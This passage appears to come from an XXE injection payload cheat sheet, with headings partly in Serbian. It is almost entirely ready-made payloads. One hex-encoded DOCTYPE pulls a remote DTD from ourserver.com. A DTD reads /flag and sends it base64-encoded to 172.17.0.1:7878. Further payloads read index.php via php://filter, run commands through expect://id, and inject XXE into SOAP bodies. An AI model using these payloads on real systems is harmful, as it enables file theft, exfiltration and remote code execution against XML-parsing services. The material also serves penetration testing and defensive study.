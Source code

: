 ```xml
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY % a "&#x3C;&#x21;&#x45;&#x4E;&#x54;&#x49;&#x54;&#x59;&#x25;&#x64;&#x74;&#x64;&#x53;&#x59;&#x53;&#x54;&#x45;&#x4D;&#x22;&#x68;&#x74;&#x74;&#x70;&#x3A;&#x2F;&#x2F;&#x6F;&#x75;&#x72;&#x73;&#x65;&#x72;&#x76;&#x65;&#x72;&#x2E;&#x63;&#x6F;&#x6D;&#x2F;&#x62;&#x79;&#x70;&#x61;&#x73;&#x73;&#x2E;&#x64;&#x74;&#x64;&#x22;&#x3E;" >%a;%dtd;]>
<data>
<env>&exfil;</env>
</data>
```

DTD primer:

```xml
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/flag">
<!ENTITY % abt "<!ENTITY exfil SYSTEM 'http://172.17.0.1:7878/bypass.xml?%data;'>">
%abt;
%exfil;
```

## PHP Omotači

### Base64

**Izvuci** _**index.php**_

```xml
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
```

#### **Izdvajanje spoljnih resursa**

```xml
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=http://10.0.0.3"> ]>
```

### Izvršenje udaljenog koda

**Ako je učitan PHP modul "expect"**

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "expect://id" >]>
<creds>
<user>&xxe;</user>
<pass>mypass</pass>
</creds>
```

## **SOAP - XEE**

```xml
<soap:Body><foo><![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://x.x.x.x:22/"> %dtd;]><xxx/>]]></foo></soap:Body>
```
